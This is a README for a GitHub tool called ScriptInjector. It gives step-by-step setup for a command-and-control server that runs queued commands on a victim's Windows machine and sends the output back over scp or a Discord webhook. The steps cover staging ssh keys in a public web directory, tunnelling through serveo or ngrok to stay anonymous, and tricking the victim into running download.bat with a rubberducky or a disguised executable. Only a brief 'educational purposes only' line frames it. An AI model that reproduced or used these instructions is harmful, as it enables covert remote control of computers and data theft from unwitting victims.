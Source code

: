 # ScriptInjector
Inject and run scripts on remote computers and get the output back via scp or a discord webhook
For educational purposes only.

## How it works
1. Clone this repo and cd into it
    ```
    sudo apt install git -y
    git clone https://github.com/emaa10/ScriptInjector.git
    cd ScriptInjector
    git checkout New-Webhook
    ```

2. Install packages
    ```
    sudo apt install -y apache2 openssh-client screen
    sudo systemctl enable ssh
    ```

3. Setup an apache2 webserver and put the files under `/src` into `/var/www/html/`
    ```
    sudo mv src /var/www/html
    ```

4. Generate an ssh-key to allow your victim to scp into your system, it is recommended to use another user with fewer permissions 
    ```
    ssh-keygen -t rsa
    ```
    Press enter on all questions.
    ```
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
    mv ~/.ssh/id_rsa ~/.ssh/id_rsa.pub /var/www/html/
    ```

5. Setup port forwarding or serveo.net/ngrok to stay anonymous
    1. forward port 80 and 22 (http and ssh)
    2. create a no-ip or a subdomain of your port-forwarding service
    3. if you're using serveo, you might need to generate a second ssh-key you don't move out of the .ssh directory and connect your gmail account

6. Create an ssh config file for your victim
    1. use the template "config" file
    2. if you're using serveo.net to forward your IP, use the "config_serveo" template
        - since serveo forwards IPs using ssh, you need to configure ProxyJump for serveo.
        - I recommend serveo because of this, it keeps your connection secure
        - You need to generate a hostname (see the launch_serveo.txt file for serveo) and just put it into "your_hostname" in your config file
    3. move your config file into /var/www/html/

7. Adapt Setup.bat and scheduled.bat to match your chosen hostname / your public IP

8. Start serveo (or a different port forwarding service)
    - See the launch_serveo.txt file for 2 commands to forward ssh and http to your_hostname.serveo.net
    - You can use screen to start multiple serveo forwarding simultaneously

9. Create folders and the input.txt
    ```
    touch /var/www/html/input.txt
    echo "dir C:\Users" >> /var/www/html/input.txt
    sudo mkdir /mnt/income
    sudo chown www-data /mnt/income
    sudo chgrp www-data /mnt/income
    sudo chmod 777 /mnt/income
    ```

10. Get the victim to open the download.bat
    - That's your part. There are many options: Using a rubberducky script or converting the bat file into an executable.